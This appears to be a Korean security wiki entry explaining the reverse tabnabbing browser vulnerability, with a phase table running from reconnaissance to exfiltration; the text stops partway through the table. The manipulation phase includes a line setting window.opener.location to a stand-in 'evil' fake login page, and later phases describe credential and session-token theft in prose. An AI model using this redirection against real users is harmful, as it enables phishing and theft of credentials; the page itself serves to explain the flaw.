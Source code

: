 ```yaml
---
title: Reverse_Tabnabbing
description: 
published: true
date: 2025-07-31T15:24:12.928Z
tags: credential harvesting, vulnerability identification, social engineering camouflage, window.opener hijacking, attack success validation, data exfiltration
editor: markdown
dateCreated: 2025-07-22T16:38:12.568Z
---
```


# Reverse Tabnabbing

## 개요
“Reverse Tabnabbing”은 웹페이지에서 링크를 클릭해 열린 탭이나 창의 참조(opener)를 유지할 때 발생하는 보안 취약점이다. 브라우저의 탭 간 참조(opener) 연결을 이용해 원본 페이지의 DOM을 조작하거나 redirection시킬 수 있는 환경에 영향을 준다. 공격자는 열려있는 원본 페이지를 악성 페이지로 변경하여 사용자가 인식하지 못한 상태에서 민감한 정보를 입력하도록 유도할 수 있다. 결과적으로 사용자의 정보 유출, 세션 탈취 등 사회공학적 피해를 초래할 수 있다.

## 분류

> 인지 맥락 불일치 (Perceptual Context Gap)  
> → 브라우저 탭 컨텍스트 불일치 (Browser Tab Context Mismatch)  
> → Reverse Tabnabbing

## 절차

<table>
  <thead>
    <tr>
      <th>Phase</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Reconnaissance</td>
      <td>타깃 사이트의 UGC 영역, HTTP 응답 헤더, CSP/COOP 설정을 조사해서 target=”_blank” 링크와 window.opener 보호 (rel = “noopener”, COOP, 취약 CSP) 부재 지점을 식별한다.</td>
    </tr>
    <tr>
      <td>Obfuscation</td>
      <td>공격용 하이퍼링크나 스크립트가 보안 필터·사용자 수동 검토에 바로 드러나지 않도록 형태를 변형,은닉한다.</td>
    </tr>
    <tr>
      <td>Manipulation</td>
      <td>클릭 시 자식 창에서 window.opener.location = “https://evil/fake_login.html” 등을 실행해서 부모 창의 URL, DOM, 히스토리를 공격자 제어 페이지로 전환한다.</td>
    </tr>
    <tr>
      <td>Validation</td>
      <td>부모 창에 의도한 대로 변조되었는지 URL 변화, UI 플리커, 서버 로그, performance.now() 지표로 확인한다.</td>
    </tr>
    <tr>
      <td>Exploitation</td>
      <td>변조된 부모 창에서 피싱 폼, 세션 스틸 스크립트, UI Redressing 등을 통해 사용자의 자격 증명이나 세션 토큰을 탈취, 악용한다.</td>
    </tr>
    <tr>
      <td>Exfiltration</td>
      <td>수집한 민감 정보를 Beacon, XHR, Websocket 등으로 공격자 서버에 전송하고 지속적 접근을 확보한다.</td>